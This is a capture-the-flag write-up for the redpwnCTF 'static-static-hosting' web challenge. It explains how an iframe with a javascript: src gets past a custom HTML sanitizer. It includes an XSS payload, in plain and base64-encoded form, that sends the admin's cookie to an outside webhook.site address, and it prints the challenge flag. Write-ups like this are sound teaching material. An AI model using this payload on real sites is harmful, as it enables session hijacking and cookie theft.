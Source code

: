 # static-static-hosting 

## Problem

```
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

Similar to [static-pastebin](./static-pastebin.md), we are given a [hosting website](https://static-static-hosting.2020.redpwnc.tf/) 
and an another [admin bot website](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting) which visits any 
URL it is given.

Even though the hosting website prompts us to submit HTML, we submit a random word anyway. It is accepted, so we go on to check the
the [background source](files/static-static-hosting/script.js) for this site.

```javascript
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
Sanitisation is a bit more complicated now. As seen from `sanitise()`, we cannot use `script` tags and attribute types are 
limited to `'src', 'width', 'height', 'alt', 'class'` now.

We try using the same method from static-pastebin to see if it works on this challenge. This time, we try using `<iframe>`
tags as their `src` attribute could trigger Javascript. Our test payload on the hosting site:
```javascript
<iframe src="javascript:alert(123)"></iframe>
```

![](images/statichost3.PNG)

This works! so we can reuse the same plan from static-pastebin to conduct an XSS and grab the admin cookie.

Payload:
```javascript
<iframe src="javascript:document.location='//webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c='+document.cookie"></iframe>
```

Base64 encode the payload, append it to the back of the URL template (this time it is `https://static-static-hosting.2020.redpwnc.tf/site/#`):
```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Jy8vd2ViaG9vay5zaXRlLzE3ZWEwM2ZkLTliZGYtNGM4MC1hOWIxLThlNGVlODhjZDcyZj9jPScrZG9jdW1lbnQuY29va2llIj48L2lmcmFtZT4=
```

Submit the resulting URL to the admin bot, and the request data will be sent to our webhook site, where we can view the flag.

![](images/statichost_flag.PNG)

**Flag**: `flag{wh0_n33d5_d0mpur1fy}`